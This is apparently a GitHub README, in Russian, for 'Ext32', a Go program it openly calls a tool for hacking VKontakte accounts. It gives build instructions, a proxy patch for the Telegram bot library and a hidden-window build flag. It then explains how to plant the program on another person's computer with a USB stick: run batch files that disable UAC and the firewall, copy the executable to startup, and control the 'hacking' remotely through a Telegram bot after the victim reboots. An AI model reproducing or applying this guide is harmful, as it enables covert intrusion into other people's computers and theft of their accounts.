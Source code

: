 # Ext32
Ext32 - программа для взлома ВКонтакте. 

Программа написана на языке программирования Go, и использует библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api).
Поэтому перед сборкой выполните 
```
go get github.com/go-telegram-bot-api/telegram-bot-api
```
<h1>Внимание!</h1>
Так как Telegram заблокирован в России, для работы программы вам необходимо внести в код некоторые изменения, связанные с прокси.

Скачав библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api), откройте файл bot.go и измените следующий участок кода:
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```
на
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	proxyUrl, _ := url.Parse("http://kvmde58-13429.fornex.org:8008")

	bot.Client = &http.Client{
		Transport: &http.Transport{
			Proxy: http.ProxyURL(proxyUrl),
		},
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```

<h1>Инструкция к сборке</h1>

* Откройте файл <b>Ext32.go</b> и в следующем блоке кода укажите собственнные данные:

```
const (
	botToken   string = "YOUR_BOT_TOKEN"
	userChatId int64  = YOUR_CHAT_ID_FROM_TELEGRAM
)
```

* Скомпилировать программу нужно со следующим флагом

```
go build Ext32.go -ldflags -H=windowsgui
```
<h1>Инструкция к запуску</h1>

* Вставьте флешку
* Запустите от имени администратора файл **Отключить UAC.bat**
* Запустите от имени администратора файл **Отключить фаервол.bat**
* Запуститие файл **Copy.bat**, который скопирует exe-шник в Автозагрузку
* Если возможно, перезагрузите компьютер, иначе придется ждать, пока пользователь сам перезагрузит компьютер, ведь программа начнет работать лишь после первой перезагрузки!
* Все! Отточите навык, и вы сможете проделывать весь процесс менее чем за 10 секунд
* После того, как программа запустится после перезагрузки, вам в Telegram-боте придет уведомление об этом, и вы сможете управлять процессом взлома через своего бота. Удачи!
